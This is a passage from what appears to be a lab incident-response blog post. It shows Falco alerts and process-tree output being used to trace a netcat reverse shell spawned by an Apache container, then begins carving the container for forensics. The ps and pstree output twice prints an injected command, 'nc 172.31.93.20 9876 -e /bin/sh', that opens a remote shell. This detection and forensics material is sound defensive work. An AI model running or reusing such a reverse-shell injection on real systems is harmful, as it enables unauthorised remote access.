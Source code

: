 If we wanted to have additional information such as process id or parent process id in the output we could add that. Hindsight being what it is, had I thought of this before starting to write this post I would have added pid details to the rule output for additional context.

Comparing the rule to the process cmdline included in the output_fields we can see clearly why it was triggered. 

On the host when we run `ps aux` we see an output similar to the one below. 

```bash
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
www-data   12520  0.0  0.0   4296   796 ?        S    21:53   0:00 sh -c ping  -c 4 & nc 172.31.93.20 9876 -e /bin/sh
```

Digging deeper if we run `pstree -asp 12520` we see that the nc process is a child of apache2. 

```bash
pstree -asp 12520

systemd,1
  └─containerd-shim,11971 -namespace moby -id 60795d68fdeeda1241083ffb35c96e3df8c295380ec4da7bc2b277db4d428216 -address /run/containerd/containerd.sock
      └─main.sh,11992 /main.sh
          └─apache2,12323 -k start
              └─apache2,12336 -k start
                  └─sh,12520 -c ping  -c 4 & nc 172.31.93.20 9876 -e /bin/sh
                      └─sh,12522 -c /bin/sh
                          └─sh,12523
```

nc usage is common in most place where Linux is used. It is not common to see nc as a child process of apache2. At this point several additional alerts from Falco start to roll in, and after speaking with the application owner we learn nc was added to the container for troubleshooting connectivity issues, but they always ran it from a shell in the container as root never as the apache user (not ideal but it is what it is). The app owners also confirmed they have not been doing any testing recently. If this were a real scenario this host would probably be isolated if possible and attempts would be made to understand what kind of data is processed on the machine. Thankfully this is just a lab and all of that is out of scope for this post :-).

We know there is an active nc session, but what else has occured in the container? Let's dive into the image a figure it out. 

---
### Carving the running container out

First lets grab the eqivilant of a disk image of the running container this. We'll be able to perform an analysis on the image and it also preserves the image in the event that the container is killed. *Note: this post mainly focuses on the container itself, opperating within a Kubernetes cluster is highly likely in a scenario similar to this. There are additional things that should occur when performing analysis on a Kubernetes cluster to preserve and protect both the running container and the host that the container is running on. Failure to do so may result in the entire node being terminated and all relevant evidence along with it.*

Lets determine the container id where this process lives. We can do this by looking at the `-id` parameter associated with the containerd-shim process from the pstree command. 
